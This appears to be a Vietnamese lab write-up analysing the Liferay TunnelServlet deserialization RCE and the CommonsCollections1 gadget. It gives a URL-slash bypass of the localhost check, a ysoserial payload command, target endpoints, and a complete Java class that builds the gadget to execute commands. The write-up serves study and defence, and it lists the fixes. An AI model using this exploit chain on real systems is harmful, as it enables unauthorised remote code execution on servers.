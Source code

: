 # 🔍 Phân Tích Lỗ Hổng Liferay TunnelServlet Deserialization RCE & Gadget CommonsCollections1

## 📌 Mục tiêu
- Phân tích chi tiết lỗ hổng `unsafe deserialization` trên Liferay thông qua endpoint `/api/liferay` và `/api/spring`.
- Tìm hiểu cách hoạt động của gadget `CommonsCollections1` khi bị deserialized.
- Viết PoC khai thác lỗ hổng và tự tạo gadget để thực thi mã từ xa.

---

## 🧪 PHẦN 1: Phân Tích Lỗ Hổng Unsafe Deserialization Trên Liferay

### 1.1 Dựng môi trường test
- Tải và cài đặt **Liferay Portal 6.2 CE GA1** (hoặc phiên bản bị ảnh hưởng cụ thể được ghi nhận trong CVE).
- Môi trường:
  - Hệ điều hành: Ubuntu/Debian hoặc Windows đều được.
  - Java 7/8 (tùy phiên bản Liferay yêu cầu).
  - Tomcat (đi kèm với bản cài đặt Liferay).

### 1.2 Cài đặt môi trường debug
- IDE: **IntelliJ IDEA** hoặc **Eclipse**
- Import mã nguồn Liferay (có thể dùng mã nguồn từ GitHub hoặc build lại từ Liferay SDK).
- Cấu hình remote debugger:
  ```bash
  JAVA_OPTS="$JAVA_OPTS -agentlib:jdwp=transport=dt_socket,address=8000,server=y,suspend=n"
  ```
  Sau đó kết nối debugger từ IDE để phân tích luồng xử lý yêu cầu `/api/*`.

### 1.3 Đọc mô tả lỗi và debug
- Mô tả lỗi: https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/
- Endpoint `/api/jsonws/invoke` (TunnelServlet) thực hiện deserialize dữ liệu đầu vào (`ObjectInputStream`) mà không kiểm tra lớp đối tượng.
- Debug vào các class như:
  - `com.liferay.portal.servlet.TunnelServlet`
  - `com.liferay.portal.security.auth.HttpAuthManagerImpl`
  - `ObjectInputStream` xử lý đầu vào từ request body.

### 1.4 Bypass Localhost Restriction
- Các endpoint `/api/liferay` và `/api/spring` mặc định chỉ cho phép từ `localhost`.
- Một số phiên bản cũ có thể bị bypass bằng chuỗi như:
  ```
  /api////liferay
  /api///spring
  ```
- Phân tích: Filter URL normalization (`getRequestURI()`) không xử lý chính xác các dấu `/` hoặc `;`, dẫn đến kiểm tra IP bị bỏ qua. Debug để theo dõi `request.getRemoteAddr()` và `request.getRequestURI()`.

### 1.5 Viết mã khai thác (Exploit)
- Sử dụng **ysoserial** để tạo gadget payload với `CommonsCollections1`:
  ```bash
  java -jar ysoserial.jar CommonsCollections1 "touch /tmp/pwned" > payload.ser
  ```
- Dùng Python hoặc curl để gửi request POST đến:
  ```
  http://target:8080/api/liferay
  http://target:8080/api////spring
  ```
- Header cần có:
  ```
  Content-Type: application/x-java-serialized-object
  ```
- Debug để xác nhận lệnh đã được thực thi.

### 1.6 Liferay đã fix như thế nào?
- Chặn các chuỗi `/api/*` từ IP ngoài `localhost`.
- Kiểm tra lại đường dẫn thực tế sau chuẩn hóa URI.
- Kiểm tra loại object được deserialize bằng allowlist.
- Tắt hoàn toàn TunnelServlet trong cấu hình nếu không sử dụng.

---

## 🔬 PHẦN 2: Phân Tích Gadget CommonsCollections1

### 2.1 Dựng môi trường test
- Tạo project Maven:
  ```bash
  mvn archetype:generate -DgroupId=com.example -DartifactId=cc1-test -DarchetypeArtifactId=maven-archetype-quickstart
  ```
- Thêm dependency:
  ```xml
  <dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
  </dependency>
  ```
- Viết chương trình đọc file `payload_cc1.bin` và deserialize:
  ```java
  ObjectInputStream in = new ObjectInputStream(new FileInputStream("payload_cc1.bin"));
  in.readObject();
  ```

### 2.2 Phân tích luồng thực thi gadget
- Gadget chain:
  ```
  AnnotationInvocationHandler
    -> LazyMap
      -> ChainedTransformer
        -> InvokerTransformer
  ```
- Quá trình:
  1. `AnnotationInvocationHandler` gọi `toString()`/`equals()` trên map.
  2. `LazyMap` gọi `transform()`.
  3. `ChainedTransformer` gọi nhiều `InvokerTransformer`.
  4. Thực thi lệnh hệ thống thông qua `Runtime.getRuntime().exec()`.

### 2.3 Tự viết lại class tạo gadget
- Viết lại class Java mô phỏng ysoserial:
```java
package com.example;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Proxy;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollections1 {  
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {  
        // Command  
        String[] execArgs = {"calc.exe"};  
  
        // Create a ChainTransformer to invoke that command.  
        final Transformer[] transformers = new Transformer[] {  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[] {  
                        String.class, Class[].class }, new Object[] {  
                        "getRuntime", new Class[0] }),  
                new InvokerTransformer("invoke", new Class[] {  
                        Object.class, Object[].class }, new Object[] {  
                        null, new Object[0] }),  
                new InvokerTransformer("exec",  
                        new Class[] { String.class }, execArgs),  
                new ConstantTransformer(1) };  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        // Create a LazyMap  
        Map map = new HashMap<>();  
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);  
  
        // Init a `sun.reflect.annotation.AnnotationInvocationHandler` object  
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        final Constructor<?> constructor = cls.getDeclaredConstructors()[0];  
        constructor.setAccessible(true);  
        InvocationHandler lazyMapInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);  
        Map evilProxy = (Map) Proxy.newProxyInstance(CommonsCollections1.class.getClassLoader(), new Class[]{Map.class}, lazyMapInvocationHandler);  
  
        InvocationHandler serializedProxyInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);  
  
        serialize(serializedProxyInvocationHandler);  
    }  
  
    public static void serialize(Object object) throws IOException {  
        FileOutputStream fileOut = new FileOutputStream("payload_cc1.bin");  
        ObjectOutputStream out = new ObjectOutputStream(fileOut);  
        out.writeObject(object);  
        out.close();  
        fileOut.close();  
    }  
}
```

- Test với chương trình deserialize ở bước 2.1 và kiểm tra kết quả.

---

## ✅ Kết luận
- Lỗ hổng `unsafe deserialization` cực kỳ nghiêm trọng nếu kết hợp với gadget nguy hiểm như `CommonsCollections1`.
- Liferay TunnelServlet là điểm tấn công rõ ràng nếu endpoint không được bảo vệ đúng cách.
- Việc phân tích và viết lại gadget giúp hiểu rõ nội tại lỗ hổng, tăng khả năng phòng thủ và phát hiện.

---

## 📚 Tài liệu tham khảo
- https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/
- https://github.com/frohoff/ysoserial
- https://portswigger.net/web-security/deserialization
- https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data
